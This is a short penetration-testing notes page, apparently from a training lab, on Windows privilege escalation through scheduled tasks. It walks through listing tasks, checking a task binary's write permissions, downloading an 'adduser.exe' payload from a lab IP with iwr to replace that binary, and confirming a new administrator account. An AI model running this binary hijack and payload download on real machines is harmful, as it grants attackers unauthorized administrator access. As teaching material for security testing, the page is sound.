 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Scheduled Tasks

Windows uses **Task Scheduler** to run automated jobs, known as **Scheduled Tasks**, based on defined triggers (e.g., at startup, login, or a specific time). Each task has one or more actions—scripts or programs to execute—configured under its properties. For privilege escalation, the focus is on three key details:

1. **User context:** Does the task run as `SYSTEM` or an `administrator`?
2. **Triggers:** When does it run? Is the condition re-usable within the testing window?
3. **Actions:** What program or script runs?

{% tabs %}
{% tab title="1. List Tasks" %}
{% code overflow="wrap" %}
```powershell
# /fo LIST -> format as list, /v -> display all properties (verbose)
PS C:\Users\steve> schtasks /query /fo LIST /v

Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        4/7/2025 12:09:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        4/7/2025 12:08:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          daveadmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        0 Hour(s), 1 Minute(s)
Repeat: Until: Time:                  None
Repeat: Until: Duration:              Disabled
Repeat: Stop If Still Running:        Disabled

# alternative
> Get-ScheduledTask
```
{% endcode %}
{% endtab %}

{% tab title="2. Check Perms" %}
```powershell
# check persmissions
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
c:\users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```
{% endtab %}

{% tab title="3. Replace" %}
{% code overflow="wrap" %}
```powershell
# replace the binary
PS C:\Users\steve> iwr http://192.168.45.226/adduser.exe -outfile BackendCacheCleanup.exe
PS C:\Users\steve> move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.back
PS C:\Users\steve> move BackendCacheCleanup.exe .\Pictures\
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
{% code overflow="wrap" %}
```powershell
# the task is executed every minute
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2
<SNIP>

PS C:\Users\steve> net LocalGroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
<SNIP>
dave2
>SNIP>
```
{% endcode %}
{% endtab %}
{% endtabs %}
